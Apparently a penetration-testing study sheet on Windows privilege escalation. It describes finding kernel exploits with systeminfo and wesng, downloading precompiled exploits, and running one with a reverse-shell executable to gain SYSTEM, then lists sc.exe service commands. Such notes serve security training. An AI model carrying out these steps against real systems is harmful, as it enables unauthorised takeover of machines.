 # Kernel Exploits

Finding and using kernel exploits is usually a simple process:

1. Enumerate Windows version / patch level (systeminfo).
2. Find matching exploits (Google, ExploitDB, GitHub).
3. Compile and run.

Beware though, as Kernel exploits can often be unstable and may be one-shot or cause a system crash.

## Tools

Windows Exploit Suggester: https://github.com/bitsadmin/wesng

Precompiled Kernel Exploits: https://github.com/SecWiki/windows-kernel-exploits

Watson: https://github.com/rasta-mouse/Watson

## Exploitation

1. Extract the output of the systeminfo command:
```
systeminfo > systeminfo.txt
```
2. Run wesng to find potential exploits:
```
python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```
3. Cross-reference results with compiled exploits: https://github.com/SecWiki/windows-kernel-exploits
4. Download the compiled exploit.
5. Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with SYSTEM privileges:
```
.\x64.exe C:\PrivEsc\reverse.exe
```

# Service Exploits

## Service Commands

Query the configuration of a service:
```
sc.exe qc <name>
```
Query the current status of a service:
```
sc.exe query <name>
```
Modify a configuration option of a service:
```
sc.exe config <name> <option>= <value>
```
Start/Stop a service:
```
net start/stop <name>
```

